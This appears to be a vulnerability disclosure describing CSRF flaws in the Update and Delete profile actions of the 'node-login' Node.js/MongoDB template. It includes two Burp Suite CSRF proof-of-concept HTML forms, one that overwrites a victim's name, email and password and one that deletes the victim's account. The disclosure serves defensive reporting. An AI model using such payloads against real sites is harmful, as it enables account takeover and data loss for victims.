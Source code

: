 # Description

`node-login` is a template for quickly building login systems on top of Node.js & MongoDB. It is vulnerable to CSRF attacks in Update and Delete profile actions

# Proof of Concept

* Navigate to `/signup` and create a victim account

# Update Profile

1. Use the CSRF PoC from Burpsuite
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:3000/home" method="POST">
      <input type="hidden" name="name" value="hacked" />
      <input type="hidden" name="email" value="hacked&#64;test&#46;com" />
      <input type="hidden" name="country" value="Afghanistan" />
      <input type="hidden" name="pass" value="hacked" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
2. Visit the payload link and click submit button
3. The account credentials should have changed to attacker's data now.

# Delete Profile

1. Use the CSRF PoC from Burpsuite
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:3000/delete" method="POST">
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
2. Visit the payload link and click submit button
3. The account should have deleted now.
